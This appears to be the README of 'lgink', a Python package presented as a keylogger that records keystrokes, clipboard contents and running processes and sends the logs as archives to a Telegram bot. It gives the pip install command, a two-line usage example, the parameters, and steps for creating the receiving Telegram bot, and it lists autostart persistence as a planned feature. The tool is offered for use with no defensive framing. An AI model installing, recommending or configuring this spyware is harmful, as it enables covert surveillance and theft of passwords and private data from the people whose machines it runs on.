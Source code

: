[![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

# lgink

The keylogger in just 2 lines. Sending to Telegram.

## Description
`lgink` is just starting its development. Its functionality will be expanded in the future.

## Navigation
* [Current features](#Сurrent-features)
* [Future features](#Future-features)
* [Installation](#Installation)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
* [Telegram bot setup](#Telegram-bot-setup)
  * [Getting token](#Getting-token)
  * [Getting id](#Getting-id)

### Current features
1. Logging of keyboard, clipboard, running processes.
2. Sending collected data as an archive to Telegram.
3. Running in a separate thread.

### Future features
1. Adding other loggers.
2. Adding to the system autostart.
 
## Installation

You can install the latest version with the command:
```
pip install lgink==0.0.1
```

## Example usage
### Standard
```python
from lgink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID, iteration_pause=60).run()
```
The standard ```Logger``` launches all available loggers and sends the collected data as an archive to you in Telegram every hour.

Transmitted parameters:
* `token` - bot's Telegram token.
* `user_id` - your Telegram id.
* `keyboard` - add keyboard logger (True/False).
* `clipboard` - add a clipboard logger (True/False).
* `processes` - add process logger (True/False).
* `special_keys` - add special keys Enter, Shift, Alt etc. to logs (True/False).
* `processes_pause` - check frequency of running processes in seconds.
* `iteration_pause` - frequency of sending collected logs in seconds.

## Telegram bot setup
### Getting token
1. Open a chat with [BotFather](https://t.me/botfather).
2. Write the command ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Write the name of the bot, then the nickname with the attribute ```_bot``` at the end.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Insert the resulting token into the ```YOUR_TOKEN``` field in the script.

### Getting id
1. Open a chat with [Get My ID](https://t.me/getmyid_bot).
2. Write the command ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Insert the resulting ID into the ```YOUR_ID``` field in the script.
